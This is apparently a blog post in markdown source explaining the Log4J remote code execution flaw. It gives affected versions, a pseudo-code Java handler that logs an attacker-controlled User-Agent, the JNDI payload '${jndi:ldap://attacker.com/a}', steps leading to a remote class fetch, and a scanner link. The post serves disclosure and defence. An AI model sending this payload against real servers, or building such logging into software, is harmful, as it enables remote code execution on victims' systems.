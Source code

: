 ```yaml
---
layout: post
title:  "Log4J Remote Code Execution"
date:   2021-12-10 19:56:00 +0800
---
```


# [Reference](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# Affected Apache log4j Version
2.0 <= Apache log4j <= 2.14.1

{% highlight Java %}
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
{% endhighlight %}

# Exploit Steps​
* Data from the User gets sent to the server (via any protocol),
* The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
* The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via "Java Naming and Directory Interface" (JNDI),
* This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
* This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

# [Scan Tool](https://github.com/cisagov/log4j-scanner)